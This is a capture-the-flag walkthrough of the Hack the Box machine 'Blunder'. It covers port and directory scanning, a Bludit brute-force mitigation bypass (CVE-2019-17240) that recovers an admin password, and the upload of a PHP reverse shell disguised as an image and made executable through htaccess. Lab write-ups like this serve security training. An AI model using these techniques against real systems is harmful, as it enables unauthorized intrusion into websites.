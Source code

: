 # Hack the Box - Blunder

# Reconnaisance

## NMAP
```CSS
▶ nmap -Pn -sS -O -p- 10.10.10.191 -T4 --min-rate 1000 -oN ports.nmap

Nmap scan report for 10.10.10.191
Host is up (0.19s latency).
Not shown: 65533 filtered tcp ports (no-response)
PORT   STATE  SERVICE
21/tcp closed ftp
80/tcp open   http
Device type: general purpose|storage-misc|WAP
Running (JUST GUESSING): Linux 5.X|4.X|2.6.X|3.X (98%), HP embedded (91%), Ubiquiti AirOS 5.X (89%), Ubiquiti embedded (89%)
OS CPE: cpe:/o:linux:linux_kernel:5.0 cpe:/h:hp:p2000_g3 cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:2.6.32 cpe:/o:linux:linux_kernel:3 cpe:/o:ubnt:airos:5.2.6 cpe:/h:ubnt:airmax_nanostation
Aggressive OS guesses: Linux 5.0 (98%), Linux 5.4 (93%), Linux 5.0 - 5.4 (93%), HP P2000 G3 NAS device (91%), Linux 4.15 - 5.6 (91%), Linux 5.3 - 5.4 (90%), Linux 2.6.32 (90%), Linux 2.6.32 - 3.1 (90%), Linux 5.1 (90%), Ubiquiti Pico Station WAP (AirOS 5.2.6) (89%)
No exact OS matches for host (test conditions non-ideal).

OS detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 134.49 seconds
```

```CSS
▶ nmap -sC -sV -p 21,80 10.10.10.191 -oN services.nmap

Nmap scan report for 10.10.10.191
Host is up (0.18s latency).

PORT   STATE  SERVICE VERSION
21/tcp closed ftp
80/tcp open   http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-generator: Blunder
|_http-title: Blunder | A blunder of interesting facts

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.23 seconds
```

---

## HTTP 80
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/f70628d0-2b79-45bb-af4e-e683b063aa20)

---

## Content Discovery

```CSS
▶ gobuster dir --url http://10.10.10.191 --wordlist /usr/share/seclists/Discovery/Web-Content/raft-large-directories.txt --threads 20
```
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/4075b582-c7ff-44a4-8767-fe978f218cc9)
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/ae1ef991-a735-481f-ac4e-fbac773d364d)
  - `Bludit` admin login.

```CSS
▶ gobuster dir --url http://10.10.10.191 --wordlist /usr/share/seclists/Discovery/Web-Content/raft-large-files.txt --threads 20
```
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/c1979746-2805-426a-9824-c5f46d09a09b)
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/3fe67c23-2588-4b30-82d4-0038d697ee17)
  - Probably the CMS is running an older version.
  - Potential username `fergus`.

---

## Brute-Force Credentials
  - A potential username `fergus` is found. Attempt to brute-force the password of this user for the CMS.

![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/5486ce91-06ec-466f-b912-f9d4066152f0)
  - IP address gets banned after a few tries to brute-force the password.

### Brute-Force Mitigation Bypass
  - Search for bypassing brute-force protection.
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/c7a9919b-9581-433c-b2e9-8670b9fb257c)

  - Google search.
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/d7d3f417-9f2d-42ab-910e-7430ef76d1fb)
  - Bludit Brute-force Mitigation Bypass (CVE-2019-17240)

  - https://github.com/ColdFusionX/CVE-2019-17240_Bludit-BF-Bypass
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/1b80229c-69f6-4496-975e-6bf906725572)

```CSS
▶ python exploit.py -l http://10.10.10.191/admin/login.php -u users.txt -p passwords.txt
```
  - Valid password `RolandDeschain` found for the user `fergus`.
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/8795423e-82bb-40fe-b9d5-c0caeb7668de)

  - Login successful to Dashboard.
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/6fb1a617-4f08-4d12-a236-b860b18cbea5)

---

  - Search for exploits.
  - Bludit RCE - https://github.com/bludit/bludit/issues/1081

  - Upload a php reverse shell to the target machine.
```CSS
▶ cp /usr/share/webshells/php/php-reverse-shell.php shell.php
```
  - Change the IP address and Port in the shell code.
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/f91738d7-102a-4418-b21f-3f3eddac9b06)
  - Change the extension of the shell file from `.php` to `.jpg`.
  - Upload the shell and modify the `UUID` by intercepting the upload request in burpsuite.
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/dfcd390f-c71c-4994-8469-4a26e2c0d8cd)
  - Also upload the `htaccess` file to make the `jpg` executable as `php`.
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/dea6a20e-07fa-490d-976b-9a3217c9ac52)
  - Browse to the location of the uploaded shell.
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/b470b90a-15ac-4c31-b032-f7802aafd02f)
  - Start a `netcat` listener.
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/53d65f09-2a0b-4c90-b6e0-1a3cfec4bc76)

  - Uploading `linpeas.sh`
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/abaeecce-bd2b-454c-b2f8-5d4baaf153c4)
